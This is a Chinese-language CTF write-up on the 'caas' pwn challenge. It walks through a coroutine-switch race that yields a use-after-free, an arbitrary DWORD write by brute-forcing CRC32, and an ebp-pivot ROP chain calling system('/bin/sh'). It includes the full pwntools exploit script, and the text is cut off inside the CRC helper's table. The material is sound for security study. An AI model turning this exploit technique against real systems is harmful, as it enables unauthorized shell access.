



# 协程切换的临界区块控制不当而引发的UAF血案

## 0x00 前言

首先祝大家新年快乐，最近做了一道pwn题，挺有意思的，是利用协程切换时临界区控制不当而导致的UAF，这题做了我很久，两天多。（可能是因为我菜）所以感觉很有收获，写这个不仅是分享，也是把我自己做题的心路历程记录下来，总结经验。


## 0x01 linux协程基础

协程，简单的说，就是用户态的，程序自己所控制的线程。我们知道，线程的管理与调度，一般是操作系统所控制的，但是协程，是用户自己所控制的。在操作系统看来，无论你建立了多少个协程，都只把它看作是一个线程。

### ucontext_t结构体

一个linux帮我们定义好的结构体，记录了一个协程的状态，比如寄存器信息，等等。。。

### linux的协程，有4个API:

1. getcontext，把执行完这个call后理论上应该有的状态，以及协程的信息，记录到ucontext_t结构体
2. setcontext，把当前记录在ucontext_t的数据，加载到当前状态中
3. makecontext，将这个ucontext_t中的eip设置为给定数值，并且给上指定参数，调用这个函数前，必须要先getcontext初始化ucontext_t。这个函数其实就是用来初始化协程用的，一般就是会给个函数指针作为初始eip。这个就好比创建线程时给的那个线程函数的函数指针。
4. swapcontext，用于协程切换，会把当前状态存入第一个ucontext_t，并且加载第二个ucontext_t到当前状态。

linux协程的具体内容我不会细讲了。。毕竟这是一道pwn的writeup不是linux协程开发教程。。。上面只是大概地说了一下。。。详细内容可以看看 linux的man [http://man7.org](http://man7.org) 或者[https://segmentfault.com/p/1210000009166339/read#2-1-_getcontext_u5B9E_u73B0](https://segmentfault.com/p/1210000009166339/read#2-1-_getcontext_u5B9E_u73B0) 

## 0x02 caas pwn

这道pwn是开源的，以下是源代码

```c
#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <ucontext.h>
#include <assert.h>
#include <unistd.h>

// CRC 

static uint32_t crc32_tab[] = {
  0x00000000, 0x77073096, 0xee0e612c, 0x990951ba, 0x076dc419, 0x706af48f,
  0xe963a535, 0x9e6495a3, 0x0edb8832, 0x79dcb8a4, 0xe0d5e91e, 0x97d2d988,
  0x09b64c2b, 0x7eb17cbd, 0xe7b82d07, 0x90bf1d91, 0x1db71064, 0x6ab020f2,
  0xf3b97148, 0x84be41de, 0x1adad47d, 0x6ddde4eb, 0xf4d4b551, 0x83d385c7,
  0x136c9856, 0x646ba8c0, 0xfd62f97a, 0x8a65c9ec, 0x14015c4f, 0x63066cd9,
  0xfa0f3d63, 0x8d080df5, 0x3b6e20c8, 0x4c69105e, 0xd56041e4, 0xa2677172,
  0x3c03e4d1, 0x4b04d447, 0xd20d85fd, 0xa50ab56b, 0x35b5a8fa, 0x42b2986c,
  0xdbbbc9d6, 0xacbcf940, 0x32d86ce3, 0x45df5c75, 0xdcd60dcf, 0xabd13d59,
  0x26d930ac, 0x51de003a, 0xc8d75180, 0xbfd06116, 0x21b4f4b5, 0x56b3c423,
  0xcfba9599, 0xb8bda50f, 0x2802b89e, 0x5f058808, 0xc60cd9b2, 0xb10be924,
  0x2f6f7c87, 0x58684c11, 0xc1611dab, 0xb6662d3d, 0x76dc4190, 0x01db7106,
  0x98d220bc, 0xefd5102a, 0x71b18589, 0x06b6b51f, 0x9fbfe4a5, 0xe8b8d433,
  0x7807c9a2, 0x0f00f934, 0x9609a88e, 0xe10e9818, 0x7f6a0dbb, 0x086d3d2d,
  0x91646c97, 0xe6635c01, 0x6b6b51f4, 0x1c6c6162, 0x856530d8, 0xf262004e,
  0x6c0695ed, 0x1b01a57b, 0x8208f4c1, 0xf50fc457, 0x65b0d9c6, 0x12b7e950,
  0x8bbeb8ea, 0xfcb9887c, 0x62dd1ddf, 0x15da2d49, 0x8cd37cf3, 0xfbd44c65,
  0x4db26158, 0x3ab551ce, 0xa3bc0074, 0xd4bb30e2, 0x4adfa541, 0x3dd895d7,
  0xa4d1c46d, 0xd3d6f4fb, 0x4369e96a, 0x346ed9fc, 0xad678846, 0xda60b8d0,
  0x44042d73, 0x33031de5, 0xaa0a4c5f, 0xdd0d7cc9, 0x5005713c, 0x270241aa,
  0xbe0b1010, 0xc90c2086, 0x5768b525, 0x206f85b3, 0xb966d409, 0xce61e49f,
  0x5edef90e, 0x29d9c998, 0xb0d09822, 0xc7d7a8b4, 0x59b33d17, 0x2eb40d81,
  0xb7bd5c3b, 0xc0ba6cad, 0xedb88320, 0x9abfb3b6, 0x03b6e20c, 0x74b1d29a,
  0xead54739, 0x9dd277af, 0x04db2615, 0x73dc1683, 0xe3630b12, 0x94643b84,
  0x0d6d6a3e, 0x7a6a5aa8, 0xe40ecf0b, 0x9309ff9d, 0x0a00ae27, 0x7d079eb1,
  0xf00f9344, 0x8708a3d2, 0x1e01f268, 0x6906c2fe, 0xf762575d, 0x806567cb,
  0x196c3671, 0x6e6b06e7, 0xfed41b76, 0x89d32be0, 0x10da7a5a, 0x67dd4acc,
  0xf9b9df6f, 0x8ebeeff9, 0x17b7be43, 0x60b08ed5, 0xd6d6a3e8, 0xa1d1937e,
  0x38d8c2c4, 0x4fdff252, 0xd1bb67f1, 0xa6bc5767, 0x3fb506dd, 0x48b2364b,
  0xd80d2bda, 0xaf0a1b4c, 0x36034af6, 0x41047a60, 0xdf60efc3, 0xa867df55,
  0x316e8eef, 0x4669be79, 0xcb61b38c, 0xbc66831a, 0x256fd2a0, 0x5268e236,
  0xcc0c7795, 0xbb0b4703, 0x220216b9, 0x5505262f, 0xc5ba3bbe, 0xb2bd0b28,
  0x2bb45a92, 0x5cb36a04, 0xc2d7ffa7, 0xb5d0cf31, 0x2cd99e8b, 0x5bdeae1d,
  0x9b64c2b0, 0xec63f226, 0x756aa39c, 0x026d930a, 0x9c0906a9, 0xeb0e363f,
  0x72076785, 0x05005713, 0x95bf4a82, 0xe2b87a14, 0x7bb12bae, 0x0cb61b38,
  0x92d28e9b, 0xe5d5be0d, 0x7cdcefb7, 0x0bdbdf21, 0x86d3d2d4, 0xf1d4e242,
  0x68ddb3f8, 0x1fda836e, 0x81be16cd, 0xf6b9265b, 0x6fb077e1, 0x18b74777,
  0x88085ae6, 0xff0f6a70, 0x66063bca, 0x11010b5c, 0x8f659eff, 0xf862ae69,
  0x616bffd3, 0x166ccf45, 0xa00ae278, 0xd70dd2ee, 0x4e048354, 0x3903b3c2,
  0xa7672661, 0xd06016f7, 0x4969474d, 0x3e6e77db, 0xaed16a4a, 0xd9d65adc,
  0x40df0b66, 0x37d83bf0, 0xa9bcae53, 0xdebb9ec5, 0x47b2cf7f, 0x30b5ffe9,
  0xbdbdf21c, 0xcabac28a, 0x53b39330, 0x24b4a3a6, 0xbad03605, 0xcdd70693,
  0x54de5729, 0x23d967bf, 0xb3667a2e, 0xc4614ab8, 0x5d681b02, 0x2a6f2b94,
  0xb40bbe37, 0xc30c8ea1, 0x5a05df1b, 0x2d02ef8d
};

uint32_t crc32(uint32_t crc, const unsigned char *buf, size_t size) {
  const uint8_t *p;

  p = buf;
  crc = crc ^ ~0U;

  while (size--) {
    crc = crc32_tab[(crc ^ *p++) & 0xFF] ^ (crc >> 8);
  }

  return crc ^ ~0U;
}

// Fiber

static ucontext_t *g_fib;
static ucontext_t *g_active_fibs;
static ucontext_t *g_unactive_fibs;

void fiber_init() {
  ucontext_t *fib = malloc(sizeof(ucontext_t));
  getcontext(fib);
  fib->uc_link = 0;
  g_fib = fib;
  g_active_fibs = fib;
}

void fiber_yield() {
  ucontext_t *next = g_fib->uc_link;
  if (next == NULL)
    next = g_active_fibs;

  if (next == g_fib)
    return;

  ucontext_t *current_context = g_fib;
  g_fib = next;
  swapcontext(current_context, g_fib);
}

void __fiber_new(void (*f)()) {
  f();
  while (1)
    fiber_yield();
}

void fiber_new(void (*func)()) {
  ucontext_t *fib = malloc(sizeof(ucontext_t));
  getcontext(fib);

  fib->uc_stack.ss_sp = malloc(0x8000);
  fib->uc_stack.ss_size = 0x8000;

  makecontext(fib, (void*)__fiber_new, 1, func);
  printf("Starting Worker #%08x\n", (unsigned)fib);
  fib->uc_link = g_active_fibs;
  g_active_fibs = fib;
}

int fiber_toggle(ucontext_t *moving, ucontext_t **from, ucontext_t **to) {
  ucontext_t *fib = *from;
  ucontext_t *last = NULL;
  while(fib != NULL && fib != moving) {
    last = fib;
    fib = fib->uc_link;
  }
  if(fib == NULL)
    return 1;

  if(last == NULL)
    *from = fib->uc_link;
  else
    last->uc_link = moving->uc_link;//unlink

  moving->uc_link = *to;//insert to other queue
  *to = moving;
  return 0;
}

int fiber_pause(void *id) {
  return fiber_toggle(id, &g_active_fibs, &g_unactive_fibs);
}

int fiber_resume(void *id) {
  return fiber_toggle(id, &g_unactive_fibs, &g_active_fibs);
}

// Lock free stack
struct node {
  void *entry;
  struct node* next;
};

struct node* job_stack;
struct node* result_stack;

void push(struct node **stack, void* e){
  struct node* n = malloc(sizeof(struct node));
  n->entry = e;
  n->next = *stack;
  *stack = n;
}

void* pop(struct node **stack) {
  struct node *old_head, *new_head;
  while(1) {
    old_head = *stack;
    if(old_head == NULL){
      return NULL;//empty stack case
    }
    new_head = old_head->next;
    fiber_yield();//exploit here
    if(*stack == old_head) {
      *stack = new_head;//if exploit properly, *stack can be setted to a dangling pointer
      break;
    }
  }

  void *result = old_head->entry;
  free(old_head);
  return result;
}

// App

struct job {
  unsigned int id;
  unsigned int len;
  unsigned char *input;
  unsigned int *result;
};

unsigned int job_id = 0;
unsigned int n_jobs = 0;
unsigned int n_workers = 0;
unsigned int n_results = 0;

void worker() {
  while(1) {
    printf("[Worker #%08x] Getting Job\n", (unsigned)g_fib);
    struct job* job = pop(&job_stack);
    if(job == NULL) {
      printf("[Worker #%08x] Empty queue, sleeping\n", (unsigned)g_fib);
      fiber_yield();
      continue;
    }
    printf("[Worker #%08x] Got a job\n", (unsigned)g_fib);
    
    *(job->result) = crc32(0, job->input, job->len);
    n_jobs -= 1;
    n_results += 1;
    push(&result_stack, (void*)job);
  }
}

int menu() {
  printf("Menu: (stats: %d workers, %d jobs, %d results)\n", n_workers, n_jobs, n_results);
  printf("  1. Request CRC32 computation\n");
  printf("  2. Add a worker\n");
  printf("  3. Yield to workers\n");
  printf("  4. Toggle worker\n");
  printf("  5. Gather some results\n");
  printf("  6. Exit\n");
  printf("> ");
  int choice;
  scanf("%d", &choice);
  fgetc(stdin); // consume new line
  return choice;
}

int main() {
  unsigned int wid, size;
  setbuf(stdout, 0);
  fiber_init();
  printf("=================================\n");
  printf("===     CRC32 As A Service     ==\n");
  printf("=================================\n\n");
  
  while(1) {
    switch(menu()) {
      case 1:
        if(n_jobs < 10) {
          printf("Size: ");
          scanf("%d", &size);
          fgetc(stdin); // consume new line
          if(size > 0x100) {
            printf("Error: input needs to be smaller than 0x100");
          } else {
            unsigned char *input = malloc(size);
            printf("Contents:\n");
            assert(size == fread(input, 1, size, stdin));

            struct job *job = malloc(sizeof(struct job));
            job->id = job_id;
            job->len = size;
            job->input = input;
            job->result = malloc(sizeof(unsigned int));

            push(&job_stack, job);
            n_jobs += 1;

            printf("Requested job. ID: #%08x\n", job_id++);
          }
        } else {
          printf("Error: job worker limit\n");
        }
        break;
      case 2:
        if(n_workers < 4) {
          n_workers++;
          fiber_new(worker);
        } else {
          printf("Error: reached worker limit\n");
        }
        break;
      case 3:
        printf("Working...\n");
        fiber_yield();
        printf("Finished working for now.\n");
        break;
      case 4:
        printf("Worker ID: #");
        scanf("%x", &wid);
        fgetc(stdin); // consume new line
        if(fiber_pause((ucontext_t *)wid) == 0) {
          printf("Pausing worker #%08x.\n", wid);
        } else if(fiber_resume((ucontext_t *)wid) == 0) {
          printf("Resuming worker #%08x.\n", wid);
        } else {
          printf("Error: Worker #%08x not found.\n", wid);
        }
        break;
      case 5:
        while(1) {
          struct job *job = pop(&result_stack);
          if(job == NULL) {
            printf("No more results right now. Try again later.\n");
            n_results = 0;
            break;
          } else {
            printf("Job #%08x result: %08x\n", job->id, *job->result);
            free(job->result);
            free(job);
          }
        }
        break;
      default:
        return 0;
    }
  }
  return 0;
}
```

题目提供了一个crc32计算服务，我们可以请求crc32计算，添加协程，切换到协程，暂停协程，收集计算结果并显示。这个服务使用的是非抢占式的协程切换，需要yield主动切换到其他协程。如果对线程切换原理有过了解，看这个代码应该不难。。如果没有，呃，好好学习大学的操作系统课程再来打CTF。。。！（逃

## 0x03 利用漏洞点构造UAF

这个漏洞点可真是难找，我当时对着代码看了好久都没发现任何显而易见问题（溢出或者格式化字符串漏洞或者UAF Double Free什么的）。找了好久，终于发现，本应该是临界区的pop操作，被分开了！

```c
void* pop(struct node **stack) {
  struct node *old_head, *new_head;
  while(1) {
    old_head = *stack;
    if(old_head == NULL){
      return NULL;//empty stack case
    }
    new_head = old_head->next;
    fiber_yield();//exploit here
    if(*stack == old_head) {
      *stack = new_head;//if exploit properly, *stack can be setted to a dangling pointer
      break;
    }
  }
```

注释是我自己加的，意思是，这个yield可以被利用，如果操作得当，\*stack可以被设置为一个dangling pointer。

但是又有一个问题，他每次切换回来的时候，都会检查\*stack和old\_head是否相等，如果不等，那么会重新加载一次new\_head和old\_head并且再次yield。这给利用造成了一些困难。不过，我们可以想想堆运行原理：被free后的内存会被insert到fastbin中，再malloc的话会直接从fastbin里面取，这样会导致内存地址是一样的。如果对堆的运行机制不了解，可以看看这篇文章[https://jaq.alibaba.com/community/art/show?articleid=315](https://jaq.alibaba.com/community/art/show?articleid=315)。

这样我们就有利用的思路了。

1. 添加两个worker协程
2. 创建两个job，大小为128，最开始我用128是为了防止因为创建的用于装内容的堆被塞入fastbin，不过后面看了一下，这个内存不会被free掉。。。所以不影响，但是后面这个job是可能要拿来装payload的，所以尽量大点也无所谓吧。先添加worker再添加job也是有道理的，因为第一，我们的payload可能要有堆基址的信息，而worker可以直接泄露堆基址，所以先拿到堆基址总没坏处；第二，到时候ROP可能会调用scanf这种函数，需要很大栈空间，所以在后面malloc可以使得他在堆区域的比较后面的位置，这样栈的空间就足够了。
3. 这个时候yield，我们发现两个worker不会立刻开始计算，而是会卡在pop的yield，然后切回主协程，如图。此时，new\_head和old\_head，分别是第1个job和第2个job。
 
4. 此时暂停第二个worker，所以待会yield他就不会运行了
5. yield两次，用第一个worker计算出crc32，此时job\_stack为空\(NULL\)
6. 收集crc32的运行结果，这时会释放result和node到大小为0x10的fastbin中（注意虽然result分配的大小是4，但是会向上取8的倍数，加上堆块的头，就是16bytes）。如图，此时0x10的fastbin中有4个chunk，其中从左到右第一个和第三个是之前result的内存空间，而第二个和第四个是node的内存空间。因为收集result时，是先pop，其中调用了free，再free的result。从左到右前两个是第2个job所malloc过的内存，后两个是第1个job所malloc过的内存。。
 
7. 这个时候再创建一个大小为128的job，注意这个大小不能太小，不然会从fastbin里面拿。此时是先malloc的result，然后push里面再malloc的node。所以，存入job\_stack的，刚好是第2个job的node，同时，这个值也会等于正在暂停的第二个worker的old\_head！这样，如果我们再运行第二个worker，\*stack == old_head会被通过！并且，job\_stack的值会被设置为之前所存放的的new\_head，这是第1个job的node，而这个地址此时还在fastbin中！这样我们就构造了一个UAF！
8. 恢复worker 2
9. yield，构造出如上所说的UAF，如图所示
 
## 0x04 利用UAF

接下来就是想，该怎么利用这个UAF了。

与劫持C++虚表的UAF利用的套路不同，这个不是C++程序，所以利用只有另求方法。

这个时候job\_stack的值在fastbin中，但是我们对node没有直接写入的权限，不能像一些套路一样，改写fd的值，使malloc返回自定义的地址。如果我们再分配一个128字节的job，新的job node和旧的job node会指向同一个地址。所以栈这个单向链表会形成一个环，想了一想，发现不好利用。

那么，既然job数据的大小是可控的，那么我们为什么不能让这个分配到一个0x10的fastbin呢？我们来看看malloc的顺序：

```c
unsigned char *input = malloc(size);
printf("Contents:\n");
assert(size == fread(input, 1, size, stdin));

struct job *job = malloc(sizeof(struct job));
job->id = job_id;
job->len = size;
job->input = input;
job->result = malloc(sizeof(unsigned int));

push(&job_stack, job);
```

可见，是先malloc输入的缓冲区，再malloc存结果的缓冲区，最后push里面再malloc node的缓冲区。

此时，0x10的fastbin中有两个chunk，如果size < 8的话，input会拿第一个，而result就拿第二个。而result，是存放计算crc32结果的地方，同时也是\*job\_stack此时的值！既然是存放我们输入数据的crc32计算结果的地方，我们相当于可以控制他的值！那么，如果我们构造一个4字节的payload，使得crc32的计算结果是我们某个可控的chunk的地址（比方说，第一个job内容的地址），便可以伪造一个job struct，其中result指向某个地址，input指向crc32是这个地址的payload。这个时候再算这个job，便可以实现任意地址DWORD SHOOT！

如图所示：
 

具体步骤为：（接上面的）

10. 暂停第二个worker，免得他干扰我们
11. 创造一个大小为4的job，其中内容的crc32是我们第一个job的128字节的input的地址，所以在我们创造第一个job的时候，内容必须要就要被构造好
12. yield两次，让第一个worker计算我们的内容。之所以是两次，是因为此时第一个worker是卡在pop的，出来的话会发现\*job\_stack的值和所存的old\_head不一样，所以会重新加载一次，这个时候再yield，就可以让job\_stack指向我们第一个job所分配的128字节的chunk

## 0x05 确定DWORD SHOOT目标以及内容 

现在，我们有枪了，但是还没有确定我们要射的目标。DWORD SHOOT，射在哪里，射什么，是一门艺术。当时我想到了几个方案：

1. shoot g\_fib为我们的chunk，比方说job2的申请的128字节，这样就能完全控制ucontext\_t。切换协程时，可以让这个协程完全被我们所控制。但是ucontext\_t的大小是大于128字节的，所以有些字段我们会控制不到，所以在协程切换时可能会有意想不到的错误，所以，pass
2. shoot 主协程的eip，好吧，只射eip完全没什么用，因为堆不可执行，没法直接shellcode
3. shoot 主协程的esp，但是，swapcpntext返回后，如图，会直接leave，即mov esp,ebp; pop ebp
 
4. 所以，不如直接射ebp，把他射到我们的第二个job的128字节的input上，可实现ROP

## 0x06 ROP构造 

本来想通过一些gadget实现获取got表free地址并计算出system地址然后call的，然而这题ALU相关的gadget真是少的可怜。。。好吧，你算不出来，我帮你算。即，先调用puts \(printf占用的栈空间实在太大，要0x2000多。。。实在是坑。。。\)，然后脚本来算出system地址，scanf把他存到ROP的后面的某个位置上。\(本来我是通过fread的，其中FILE\*直接给的就是\_\_bss\_start的地址，然而这样不行。。因为fread所需要的是\_\_bss\_start里面的内容，不是他的地址。。。\)

下面就是ROP的具体内容

\+0x00:
  \+0x10 ebp
  0x8048520 puts addr
  0x8048618 leave/ret addr
  0x804A5E8 got addr of free
\+0x10:
  \+0x24 ebp
  0x8048590 scanf addr
  0x8048618 leave/ret addr
  "%x" addr
  \+0x28 ; address to be modified to system address
\+0x24:
  0 ;ebp
\+0x28:
  0 ;to be modified to address of system
  0
  \+0x34 "/bin/sh" addr
\+0x34:
  "/bin/sh"
\+0x3c\:
  "%x\x00\x00"
\+0x40:

很明显，执行到leave的时候，会把esp设为+0x00处地址，然后pop ebp，可以接着继续控制ROP。这是一个ROP技巧，只要能通过这种方式控制ebp，就可以一直通过将返回地址设为leave/ret，实现几个函数的连续调用（注意，根据调用约定，任何libc的函数都不会改变ebp的值）。

所以最后一步：（接着上面的）

13. yield，这个时候会用我们的fake job struct中的数据计算crc32，写到主协程的ebp中。然后yield切换回主协程时，ebp已经被篡改，进入我们的ROP

## 0x07 exp编写

还有一点，堆分配出来的地址，在一定情况下，是确定的。即，只要确定堆基址，然后堆分配操作顺序一定，出来的相对堆基址的偏移必然一样。

不过我在调试的时候，出现了问题：就是当我直接命令行运行程序或者用gdb调试，与用pwntools运行程序，堆分配的偏移会不一样。但是在服务器上，是一样的。不知道是什么原因，如果有大神知道，可以一起讨论。

好了，接着，我们用gdb调试，获取到主协程ucontext\_t，第一个job和第二个job输入的地址，然后记录下worker1和worker2的地址，然后readelf找到system和free的偏移，就可以上手写exp了。

顺便说一下，这个题目是给一个shell，但是权限不够cat flag，所以要通过get这个程序的shell拿到flag。因为这个原因，我们可以用这个shell，下载并开启gdb peda，获取到以上的信息，写入exp

exp如下：

```python
from pwn import *

g_local = False
if g_local:
	sh=process("./caas")
	WORKER1_ADDR = 0x1170#0x570
	WORKER2_ADDR = 37592#0x86d8
	WORKER1_SIGN = 0x170#0x570
	JOB1_CONTENT_ADDR = 0x11440#0x10840
	JOB2_CONTENT_ADDR = 0x11500#0x10900
	SYSTEM_ADDR = 0x0003ada0#0x3ada0
	FREE_ADDR = 0x71470#0x71470
else:
	sh=process("/problems/4e35adf4276b6c2f727f265de95d588b/caas")
	WORKER1_ADDR = 0x168
	WORKER2_ADDR = 0x82d0
	WORKER1_SIGN = WORKER1_ADDR
	JOB1_CONTENT_ADDR = 0x10438
	JOB2_CONTENT_ADDR = 0x104f8
	SYSTEM_ADDR = 0x3e3e0
	FREE_ADDR = 0x76110

heap_base_addr = None

MAIN_EBP_ADDR = 0x034


CHUNK_SIZE = 128

crc32_to_bytes = {}

def crack_crc32(crc32val):
	global crc32_to_bytes
	if (crc32val in crc32_to_bytes):
		return crc32_to_bytes[crc32val]
	cracksh = process("./crack_crc32")
	cracksh.send(str(crc32val) + "\n")
	ret = p32(int(cracksh.recv(), 16))
	cracksh.close()
	crc32_to_bytes[crc32val] = ret
	return ret

def parse_addr(addr_str):
	if (len(addr_str) >= 4):
		return u32(addr_str[:4])
	else:
		return u32(addr_str + "\x00" * (4 - len(addr_str)))

def request_crc32_comp(data):
	sh.send("1\n")
	sh.recvuntil("Size: ")
	sh.send(str(len(data)) + "\n")
	sh.recvuntil("Contents:\n")
	sh.send(data)
	sh.recvuntil("> ")

def add_worker():
	global heap_base_addr
	sh.send("2\n")
	sh.recvuntil("Starting Worker #")
	worker_addr = sh.recvuntil("> ")
	worker_addr = int(worker_addr[:8], 16)
	if (worker_addr & 0xfff) == WORKER1_SIGN:
		heap_base_addr = worker_addr - WORKER1_ADDR

def yield_worker():
	sh.send("3\n")
	print sh.recvuntil("> ")

def toggle_worker(worker_id):
	sh.send("4\n")
	sh.recvuntil("Worker ID: #")
	sh.send(hex(worker_id)[2:] + "\n")
	print sh.recvuntil("> ")

def gather_results():
	sh.send("5\n")
	print sh.recvuntil("> ")


# struct job {
#   unsigned int id;
#   unsigned int len = 4;
#   unsigned char *input = +0x10;
#   unsigned int *result = &ebp of main context = heap + 0x34;
# bytes:
#   need to be crc32 to address of 2nd job chunk
def make_job1_payload(chunk_addr, displacement):
	job_id = p32(0) #id, not useful
	length = p32(4) #going to calculate 4 bytes
	result = p32(MAIN_EBP_ADDR + heap_base_addr)
	ret = job_id + length + p32(chunk_addr+16) + result + \
		(crack_crc32(JOB2_CONTENT_ADDR + heap_base_addr + displacement))
	ret += "\x90" * (CHUNK_SIZE - len(ret))
	assert (len(ret) == CHUNK_SIZE)
	return ret


# 2nd job content addr: 0x805b900
# 2nd job chunk size 0x100 = 128
# +0x00:
#   +0x10 ebp
#   0x8048520 puts addr
#   0x8048618 leave/ret addr
#   0x804A5E8 got addr of free
# +0x10:
#   +0x24 ebp
#   0x8048590 scanf addr
#   0x8048618 leave/ret addr
#   "%x" addr
#   +0x28 some position in this chunk
# +0x24:
#   0 ;ebp
# +0x28
#   0 ;to be modified
#   0
#   +0x34 "/bin/sh" addr
# +0x34:
#   "/bin/sh"
# +0x3c:
#   "%x\x00\x00"
# +0x40:
def make_job2_payload(chunk_addr):
	payload_size = 0x40
	length_begin = CHUNK_SIZE - payload_size
	leave_ret = p32(0x8048618)
	payload_start = chunk_addr + length_begin
	ret = p32(payload_start + 0x10)
	ret += p32(0x8048520)
	ret += leave_ret
	ret += p32(0x804A5E8)
	ret += p32(payload_start + 0x24)
	ret += p32(0x8048590)
	ret += leave_ret
	ret += p32(payload_start + 0x3c)
	ret += p32(payload_start + 0x28)
	ret += p32(0)
	ret += p32(0)
	ret += p32(0)
	ret += p32(payload_start + 0x34)
	ret += "/bin/sh\x00"
	ret += "%x\x00\x00"

	ret = "\x90" * length_begin + ret
	assert (len(ret) == CHUNK_SIZE)
	return ret,length_begin

add_worker()
add_worker()


job2_payload, displacement = make_job2_payload(JOB2_CONTENT_ADDR + heap_base_addr)
job1_payload = make_job1_payload(JOB1_CONTENT_ADDR + heap_base_addr, displacement)
request_crc32_comp(job1_payload)
request_crc32_comp(job2_payload)

yield_worker()

toggle_worker(WORKER2_ADDR + heap_base_addr)

yield_worker()
yield_worker()

gather_results()

request_crc32_comp("C" * CHUNK_SIZE)

toggle_worker(WORKER2_ADDR + heap_base_addr)

yield_worker()

toggle_worker(WORKER2_ADDR + heap_base_addr)

#now job_stack is dangling pointer pointing to chunk in fastbin

request_crc32_comp(crack_crc32(JOB1_CONTENT_ADDR + heap_base_addr))

yield_worker()
yield_worker()

sh.send("3\n")


sh.recvuntil("Getting Job\n")
got_info = sh.recv()
free_addr = parse_addr(got_info)
print "free addr: " + hex(free_addr)
system_addr = free_addr - FREE_ADDR + SYSTEM_ADDR
print "system addr: " + hex(system_addr)

sh.send(hex(system_addr)[2:] + "\n")

sh.interactive()
```

顺便提一下，在服务器的shell中直接python运行这个脚本的话，from pwn import \*这里会卡死，不知道为什么，有大神知道的话，可以讨论一下。所以我说先python打开交互式界面，然后手动import我的exp，就可以getshell了。。。

其中，crack\_crc32是用来爆破crc32的程序，因为是爆破，所以exp的运行时间可能会有些长。代码如下：
```c
#include <stdint.h>
#include <stdio.h>
static uint32_t crc32_tab[] = {
  0x00000000, 0x77073096, 0xee0e612c, 0x990951ba, 0x076dc419, 0x706af48f,
  0xe963a535, 0x9e6495a3, 0x0edb8832, 0x79dcb8a4, 0xe0d5e91e, 0x97d2d988,
  0x09b64c2b, 0x7eb17cbd, 0xe7b82d07, 0x90bf1d91, 0x1db71064, 0x6ab020f2,
  0xf3b97148, 0x84be41de, 0x1adad47d, 0x6ddde4eb, 0xf4d4b551, 0x83d385c7,
  0x136c9856, 0x646ba8c0, 0xfd62f97a, 0x8a65c9ec, 0x14015c4f, 0x63066cd9,
  0xfa0f3d63, 0x8d080df5, 0x3b6e20c8, 0x4c69105e, 0xd56041e4, 0xa2677172,
  0x3c03e4d1, 0x4b04d447, 0xd20d85fd, 0xa50ab56b, 0x35b5a8fa, 0x42b2986c,
  0xdbbbc9d6, 0xacbcf940, 0x32d86ce3, 0x45df5c75, 0xdcd60dcf, 0xabd13d59,
  0x26d930ac, 0x51de003a, 0xc8d75180, 0xbfd06116, 0x21b4f4b5, 0x56b3c423,
  0xcfba9599, 0xb8bda50f, 0x2802b89e, 0x5f058808, 0xc60cd9b2, 0xb10be924,
  0x2f6f7c87, 0x58684c11, 0xc1611dab, 0xb6662d3d, 0x76dc4190, 0x01db7106,
  0x98d220bc, 0xefd5102a, 0x71b18589, 0x06b6b51f, 0x9fbfe4a5, 0xe8b8d433,
  0x7807c9a2, 0x0f00f934, 0x9609a88e, 0xe10e9818, 0x7f6a0dbb, 0x086d3d2d,
  0x91646c97, 0xe6635c01, 0x6b6b51f4, 0x1c6c6162, 0x856530d8, 0xf262004e,
  0x6c0695ed, 0x1b01a57b, 0x8208f4c1, 0xf50fc457, 0x65b0d9c6, 0x12b7e950,
  0x8bbeb8ea, 0xfcb9887c, 0x62dd1ddf, 0x15da2d49, 0x8cd37cf3, 0xfbd44c65,
  0x4db26158, 0x3ab551ce, 0xa3bc0074, 0xd4bb30e2, 0x4adfa541, 0x3dd895d7,
  0xa4d1c46d, 0xd3d6f4fb, 0x4369e96a, 0x346ed9fc, 0xad678846, 0xda60b8d0,
  0x44042d73, 0x33031de5, 0xaa0a4c5f, 0xdd0d7cc9, 0x5005713c, 0x270241aa,
  0xbe0b1010, 0xc90c2086, 0x5768b525, 0x206f85b3, 0xb966d409, 0xce61e49f,
  0x5edef90e, 0x29d9c998, 0xb0d09822, 0xc7d7a8b4, 0x59b33d17, 0x2eb40d81,
  0xb7bd5c3b, 0xc0ba6cad, 0xedb88320, 0x9abfb3b6, 0x03b6e20c, 0x74b1d29a,
  0xead54739, 0x9dd277af, 0x04db2615, 0x73dc1683, 0xe3630b12, 0x94643b84,
  0x0d6d6a3e, 0x7a6a5aa8, 0xe40ecf0b, 0x9309ff9d, 0x0a00ae27, 0x7d079eb1,
  0xf00f9344, 0x8708a3d2, 0x1e01f268, 0x6906c2fe, 0xf762575d, 0x806567cb,
  0x196c3671, 0x6e6b06e7, 0xfed41b76, 0x89d32be0, 0x10da7a5a, 0x67dd4acc,
  0xf9b9df6f, 0x8ebeeff9, 0x17b7be43, 0x60b08ed5, 0xd6d6a3e8, 0xa1d1937e,
  0x38d8c2c4, 0x4fdff252, 0xd1bb67f1, 0xa6bc5767, 0x3fb506dd, 0x48b2364b,
  0xd80d2bda, 0xaf0a1b4c, 0x36034af6, 0x41047a60, 0xdf60efc3, 0xa867df55,
  0x316e8eef, 0x4669be79, 0xcb61b38c, 0xbc66831a, 0x256fd2a0, 0x5268e236,
  0xcc0c7795, 0xbb0b4703, 0x220216b9, 0x5505262f, 0xc5ba3bbe, 0xb2bd0b28,
  0x2bb45a92, 0x5cb36a04, 0xc2d7ffa7, 0xb5d0cf31, 0x2cd99e8b, 0x5bdeae1d,
  0x9b64c2b0, 0xec63f226, 0x756aa39c, 0x026d930a, 0x9c0906a9, 0xeb0e363f,
  0x72076785, 0x05005713, 0x95bf4a82, 0xe2b87a14, 0x7bb12bae, 0x0cb61b38,
  0x92d28e9b, 0xe5d5be0d, 0x7cdcefb7, 0x0bdbdf21, 0x86d3d2d4, 0xf1d4e242,
  0x68ddb3f8, 0x1fda836e, 0x81be16cd, 0xf6b9265b, 0x6fb077e1, 0x18b74777,
  0x88085ae6, 0xff0f6a70, 0x66063bca, 0x11010b5c, 0x8f659eff, 0xf862ae69,
  0x616bffd3, 0x166ccf45, 0xa00ae278, 0xd70dd2ee, 0x4e048354, 0x3903b3c2,
  0xa7672661, 0xd06016f7, 0x4969474d, 0x3e6e77db, 0xaed16a4a, 0xd9d65adc,
  0x40df0b66, 0x37d83bf0, 0xa9bcae53, 0xdebb9ec5, 0x47b2cf7f, 0x30b5ffe9,
  0xbdbdf21c, 0xcabac28a, 0x53b39330, 0x24b4a3a6, 0xbad03605, 0xcdd70693,
